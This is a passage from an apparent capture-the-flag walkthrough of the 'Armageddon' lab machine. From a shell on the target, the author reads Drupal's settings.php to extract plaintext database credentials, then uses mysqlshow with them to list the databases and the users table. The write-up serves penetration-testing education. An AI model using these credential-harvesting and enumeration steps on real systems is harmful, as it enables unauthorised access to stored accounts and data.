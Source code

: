 ```text
armageddon.htb>> cat sites/default/settings.php
<?php
/**
 * @file
 * Drupal site-specific configuration file.
 *
<SNIP>
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

## MySQLShow

I tried these with bruce via SSH but that didn't work, so instead we need to look in the MySQL database. I couldn't use mysql in the fakeshell but [mysqlshow](https://dev.mysql.com/doc/refman/8.0/en/mysqlshow.html) worked. Using the credentials found above we can enumerate the database:

```text
armageddon.htb>> mysqlshow -u drupaluser -p'CQHEy@9M*m23gBVj'
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| drupal             |
| mysql              |
| performance_schema |
+--------------------+

armageddon.htb>> mysqlshow -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
Database: drupal
+-----------------------------+
|           Tables            |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
<SNIP>
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| watchdog                    |
+-----------------------------+

armageddon.htb>> mysqlshow -u drupaluser -p'CQHEy@9M*m23gBVj' drupal users
Database: drupal  Table: users
+------------------+------------------+-----------------+------+-----+---------+-------+---------------------------------+-----------------------------------------------------+
```